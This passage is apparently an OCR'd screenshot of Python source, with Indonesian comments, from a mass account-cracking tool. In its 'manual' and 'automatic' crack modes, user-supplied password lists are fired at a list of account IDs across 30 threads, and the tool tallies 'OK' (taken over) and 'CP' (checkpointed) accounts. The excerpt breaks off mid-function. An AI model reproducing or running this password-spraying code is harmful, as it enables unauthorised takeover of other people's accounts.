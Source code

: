 			pwx = console.input(f" {H2}• {P2}buat katasandi : ").split(",")

			if len(pwx)<=5:

				prints(Panel(f"""{M2}katasandi harus minimal 6 huruf""",width=80,style=f"{color_panel}"))

				exit()

			self.manual(pwx)

		

		###----------[ SANDI OTOMATIS ]---------- ###

		else:

			self.otomatis()

		

	###----------[ CRACK MANUAL ]---------- ###

	def manual(self,pw):

		global prog,des

		prog = Progress(SpinnerColumn('clock'),TextColumn('{task.description}'),BarColumn(),TextColumn('{task.percentage:.0f}%'),TimeElapsedColumn())

		des = prog.add_task('',total=len(tampung))

		with prog:

			with ThreadPoolExecutor(max_workers=30) as fall:

				self.simpan_hasil()

				for data in tampung:

					user = data.split("<=>")[0]

					nama = data.split("<=>")[1]

					pwx = pw

					fall.submit(self.metode_api,user,pwx)

		prints(Panel(f"""{P2}berhasil crack total {len(tampung)} id, dengan hasil OK : {H2}{len(self.ok)}{P2} CP : {K2}{len(self.cp)}{P2}""",width=80,padding=(0,8),style=f"{color_panel}"))

		sys.exit()

						

	###----------[ CRACK OTOMATIS ]---------- ###

	def otomatis(self):

		global prog,des

		prog = Progress(TextColumn('{task.description}'),BarColumn(),TextColumn('{task.percentage:.0f}%'),TimeElapsedColumn())

		des = prog.add_task('',total=len(tampung))

		with prog:
